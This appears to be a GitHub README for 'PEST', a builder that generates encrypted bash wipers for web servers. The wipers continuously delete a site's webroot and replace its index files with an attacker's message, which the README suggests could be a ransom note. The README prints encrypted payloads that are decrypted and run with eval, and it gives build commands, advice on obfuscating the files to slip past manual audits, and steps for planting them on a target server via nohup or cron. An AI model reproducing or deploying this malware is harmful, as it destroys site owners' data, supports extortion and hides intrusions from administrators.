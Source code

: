 # PEST

This is for **educational purposes** only. I bear no responsibility for what you use this for. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

This is a fire and forget way to keep a webmaster confused.

Using the build tool, you can generate three different types of bash files that will perform differently.

- Loop wiper : Will consistently wipe the webroot and replace the index.php/index.html with a custom message. Runs in an infinite loop.

- Cron wiper : Same as the **loop**, but runs only once as it is intended to be added as a cron job.

# How it works

A developer will get a message on the web root in an `index.php` and `index.html` file. No matter what he/she does, They cannot get rid of those files. They back after being deleted and no other file can be uploaded. Any file uploaded to the web root also gets deleted almost immediately.

# Usage

As usual, to see usage,

```bash
$ ./pest -h
```
or
```bash
$ ./pest --help
```

To build the final product you need the following

- The webroot path
- A custom message (A ransom message maybe)
- Sleep time in seconds (This **ONLY** for loop wiper). This serves as a delay between each run.

Then you get a copy of **pest** either by cloning this repo or just copying and pasting the code.

Make it executable by running

```bash
$ chmod +x pest
```

To build a **loop wiper**, run:

```bash
$ ./pest -o './.loop_wiper' --type loop --target '/home/test/public_html' --message 'Pwned' --sleep 20
```

A file named **".loop_wiper"** will be created. It's contents will look like this

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "W+he7Uqi3ikGjXGzXBePZ+fYDatV1LbrcDr/yIxwDi2DpL/BCFW/E6eqnZwvOFRY
4rK5AAENxiNA04Vl53lX5vPyGS311mf7PtMr8B5s69fmLUWIXtxFB5R2plpssbNK
egc4N0V0ARZBeZiWUMZwMBzCEwED4CUdUXUTK5rkiDrJZDWSzXSN0AfYMCzroLDR
0mM3cWyJGlS1Q7vUCCwSFPBoR1dqmz1bBNu5m0meyzTtgK5Zp+r3oQtBPtrtU3M7
jCMNVADVchN/h/13Qu5p5y+K+b6FyTdeC9WK63geRwxtYwG+fPl+OLJia/v5P1ai
tl30B1kOMC3MVb7uqNlqvadM15AUDqf2he13F7xKVIvPRfjJWXXIBKR06Jb7luNb
XXKiavdZLQ1cSa228BmLq82OO5YMJkIpz3/5mQIc90x6RuXFLUUZKeAg20KMsdak
nHT24WyIYefs/yfSQTX2mPp3apyTpWBSKoqwM2cpKv0g0u2OuR/HXW2eh2qaVZUe
5+5LlogpyYO1tQq021Av3UCITlyP72ntB2N7xyUNTZz2SfZj964gmnxvjyTLUIF3
Fy23Qo0I5KIra0N2gfdvyrWq87FuPaikefZ/R4JwpQOmVQOv6b3kmKazwZsk53Vz
9L+nj5oi6WeKS9PhSZc/afhVVjIFecM5gjjeeH7Vc/IWrGnTm/ysUF/axqgYf3mM
FgQTDUE8W4uqg0mtpJ/3YQ==" | openssl enc -aes-256-cbc -K "15e05fe50a515531dff8ad9cdbcf436f9c58cc42a957deb234e893a1eeeb6a29" -iv "987fe6150619524e9808de0f73e82958" -d -a);
eval "$decrypted";
```


To build a **cron wiper**, run:

```bash
$ ./pest -o './.cron_wiper' --type cron --target '/home/test/public_html' --message 'Pwned'
```

A file named **".cron_wiper"** will be created. It's contents will look like something similar to this  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "jWEooyZX/90ZzRmU5R7cLADvaPnOXfsM3uDcSDy6N5mNbUHxy60P+T3XhnDvC5R0
tc/teiUwRGgYGRnhqpSNfddfvrSwdmolZdpAGxQqUqVtP0VW+BwoCPpwHKbVxkeQ
N34d/kIgrw13dqKd42GW5RZrNpOtC9KXvquM9SOsKM3SvR2BtX6X9gdhUCr5qC+y
NDnIIkuPL6r6gsZsT4dcb3X8kZw60tTodE/ZrkTWfRYpVQiRk7jKxbPBBFcysLef
xSxyi4/06OQaF4ubqdtBEewyjq2xDqnQevECkH3Mh1UBtbZBOewOJ+tDlW7/PY7O
jhA0+7cDfzyk9lJQ6FEiLqoU8MgCwWKBx/BYZ2gsZSpABFBRdcrY0FsosJ8lwrBO
sMn3WFFxh2G+EAdjkq+JOlVwvl+Kq2KovTQ5v2dnKOBYtyf0nfOiceUvQcawPuuy
PIxjRx3ohE9q+6H1y/81H1SKUHhQaFAOPACdFkZqXjOzEzvSdWXLnt8NctA7kHxt
f+qDnwaMmDhTev66WtV8Nv37i19asPWXXInISAdLVScrEiIAodVhnO4Hvddwotbs
TlMBsUP8ydfIkmLq0Auj6bDR9yWPEkcjFGaRVdzU9x8=" | openssl enc -aes-256-cbc -K "b13bb24222c310030f50cd6643b8c9f07b69342318c2e060b95176b644832d39" -iv "372ce7a88dab703e9ad86eb0f802fe49" -d -a);
eval "$decrypted";
```

**NOTE**: The path you pass via --target should be a path that exists on your target server.

Yes. It's an encrypted malware.

## Obfuscation
It is important you obfuscate these generated files by changing the file names, making them dot files and adding useless whitespace and comments at the top of the file to distract during manual audit.

Also note that the cron wiper is discouraged as it raises attention and is quick to spot.

## Using the generated files
To run the loop_wiper, upload the generated **.loop_wiper** file to the target server and make it executable by running  

```bash
$ chmod +x .loop_wiper
```

then run the following command on the target server

```bash
$ nohup ./.loop_wiper & disown
```

To run the .cron_wiper, **add it the the list of cron jobs**. Using the cpanel or **crontab** command.

If you find this page confusing, or you have no idea what's going on, you should not be here at all. I know, it feels frustrating and you feel left out, and that's okay. Go build a website or an app.

